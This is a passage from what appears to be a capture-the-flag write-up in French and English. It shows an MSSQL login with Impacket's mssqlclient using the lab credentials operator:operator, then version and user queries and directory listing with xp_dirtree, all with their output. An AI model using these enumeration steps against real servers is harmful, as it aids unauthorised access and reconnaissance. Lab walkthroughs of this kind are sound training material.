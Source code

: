 - **MSSQL**
Let's now check our creds for the `mssql`. Pour cela on va utiliser le `mssqlclient` pour nous connecter
- https://book.hacktricks.xyz/network-services-pentesting/pentesting-mssql-microsoft-sql-server
```
└─$ sudo mssqlclient.py -port 1433  manager.htb/operator:operator@10.10.11.236 -window
Impacket v0.11.0 - Copyright 2023 Fortra

[*] Encryption required, switching to TLS
[*] ENVCHANGE(DATABASE): Old Value: master, New Value: master
[*] ENVCHANGE(LANGUAGE): Old Value: , New Value: us_english
[*] ENVCHANGE(PACKETSIZE): Old Value: 4096, New Value: 16192
[*] INFO(DC01\SQLEXPRESS): Line 1: Changed database context to 'master'.
[*] INFO(DC01\SQLEXPRESS): Line 1: Changed language setting to us_english.
[*] ACK: Result: 1 - Microsoft SQL Server (150 7208) 
[!] Press help for extra shell commands
SQL (MANAGER\Operator  guest@master)> 
```
Maintenant faisons un peu de commands sur ceci
```
SQL (MANAGER\Operator  guest@master)> select @@version;
----------------------------------------------------------------------------------   
Microsoft SQL Server 2019 (RTM) - 15.0.2000.5 (X64) 
        Sep 24 2019 13:48:23 
        Copyright (C) 2019 Microsoft Corporation
        Express Edition (64-bit) on Windows Server 2019 Standard 10.0 <X64> (Build 17763: ) (Hypervisor)
SQL (MANAGER\Operator  guest@master)> select user_name();
        
-----   
guest   
```
Maintenant pour lister les fichiers et tout autre dans `mssql` on utilise `xp_dirtree`
```
SQL (MANAGER\Operator  guest@master)> xp_dirtree
subdirectory                depth   file   
-------------------------   -----   ----   
$Recycle.Bin                    1      0   
Documents and Settings          1      0   
inetpub                         1      0   
PerfLogs                        1      0   
Program Files                   1      0   
Program Files (x86)             1      0   
ProgramData                     1      0   
Recovery                        1      0   
SQL2019                         1      0   
System Volume Information       1      0   
Users                           1      0   
Windows                         1      0   
```
Maintenant ici je vais voir le directory `inetpub`
```
EXEC xp_dirtree 'C:\inetpub';
subdirectory                     depth   
------------------------------   -----   
custerr                              1   
en-US                                2   
history                              1   
logs                                 1   
temp                                 1   
appPools                             2   
IIS Temporary Compressed Files       2   
wwwroot                              1   
css                                  2   
images                               2   
```